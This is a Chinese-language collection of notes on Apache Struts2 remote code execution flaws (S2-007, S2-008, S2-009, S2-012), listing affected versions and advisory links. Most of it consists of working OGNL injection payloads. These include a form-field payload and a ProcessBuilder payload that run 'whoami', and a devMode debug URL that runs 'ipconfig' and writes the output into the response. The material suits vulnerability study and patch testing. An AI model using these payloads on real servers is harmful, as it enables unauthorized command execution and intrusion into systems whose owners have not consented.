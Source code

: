 	Struts 2.0.0 - Struts 2.2.3

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-007)

当有转换错误时，用户输入被评估为OGNL表达式。这允许恶意用户执行任意代码。



POC

	' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '



![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-9/44059606.jpg)

会在age中得到相应的信息。


##### S2-008

- 影响版本 

	Struts 2.1.0 - Struts 2.3.1

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-008)

[参考](http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities)


>S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

>例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

	/showcase.action?debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="ipconfig",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[1000],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))


##### S2-009

影响版本: 2.1.0 - 2.3.1.1

[S2-009](https://github.com/sie504/vulhub/tree/master/struts2/s2-009)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-9/43990420.jpg)


##### S2-012

影响版本: 2.1.0 - 2.3.13

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-012)

	%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
